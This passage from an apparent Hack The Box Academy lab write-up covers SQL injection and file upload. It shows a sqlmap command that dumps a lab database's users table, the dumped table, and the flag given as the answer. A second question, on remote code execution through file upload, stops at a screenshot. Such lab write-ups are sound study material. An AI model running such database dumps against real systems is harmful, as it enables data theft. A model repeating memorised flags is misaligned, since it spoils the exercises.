 #### Question #06

**Question**

Identify the username of the user that has a position of `736373` through SQLi. Submit it as your answer.
 
```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ sqlmap 'http://10.129.202.133:3003/?id=1*' --batch --dump --no-cast

[SNIP]

Database: htb
Table: users
[4 entries]
+---------+--------------------------------+------------+
| id      | username                       | position   |
+---------+--------------------------------+------------+
| 1       | admin                          | 1          |
| 2       | HTB-User-John                  | 2          |
| 3       | WebServices                    | 3          |
| 8374932 | HTB{THE_FL4G_FOR_SQLI_IS_H3RE} | 736373     |
+---------+--------------------------------+------------+
```

**Answer**

```
HTB{THE_FL4G_FOR_SQLI_IS_H3RE}
```

## Arbitrary File Upload

#### Question #07

**Question**

Achieve remote code execution and submit the server's hostname as your answer.

![Firefox - Homepage](./assets/screenshots/web_service_and_api_attacks_file_upload_firefox_homepage.png)
